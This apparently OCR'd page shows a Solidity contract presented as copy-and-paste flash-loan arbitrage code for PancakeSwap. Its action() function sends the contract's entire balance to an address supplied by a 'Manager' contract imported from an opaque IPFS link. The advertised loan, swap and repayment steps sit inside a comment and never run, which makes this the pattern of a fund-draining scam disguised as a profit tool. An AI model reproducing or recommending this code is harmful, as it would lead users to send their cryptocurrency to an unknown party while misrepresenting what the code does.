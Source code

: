 //Copy this code
pragma solidity ^0.5.0;

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashLoanDemo/blob/main/contracts/interfaces/ILendingPool.sol";
   
// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakePair.sol";
   
// Code Manager
import "ipfs://QmcdBFQDxD8UG7rsa7D5TPoZ785AjneWzf4F4w8dje4pDV";
   
contract GetFlashLoan {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   Manager manager;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;
         
      manager = new Manager();
   }
   
   function() external payable {}
   
   function action() public payable {
      // Send required coins for swap
      address(uint160(manager.pancakeDepositAddress())).transfer(address(this).balance);
      
      // Perform tasks (clubbed all functions into one to reduce external calls & SAVE GAS FEE)
      // Breakdown of functions written below
      manager.performTasks();
      
      /* Breakdown of functions
      // Submit token to BSC blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
   // List the token on PancakeSwap
      manager.pancakeListToken(tokenName, tokenSymbol, tokenAddress);
      
   // Get BNB Loan from Multiplier-Finance
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half BNB to DAI
      manager.pancakeDAItoBNB(loanAmount / 2);
   
   // Create BNB and DAI pairs for our token & Provide liquidity
   string memory bnbPair = manager.pancakeCreatePool(tokenAddress, "BNB");
      manager.pancakeAddLiquidity(bnbPair, loanAmount / 2);
      string memory daiPair = manager.pancakeCreatePool(tokenAddress, "DAI");
      manager.pancakeAddLiquidity(daiPair, loanAmount / 2);
   
   // Perform swaps and profit on Self-Arbitrage
      manager.pancakePerformSwaps();
      
      // Move remaining BNB from Contract to your account
      manager.contractToWallet("BNB");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);
      */
   }
}
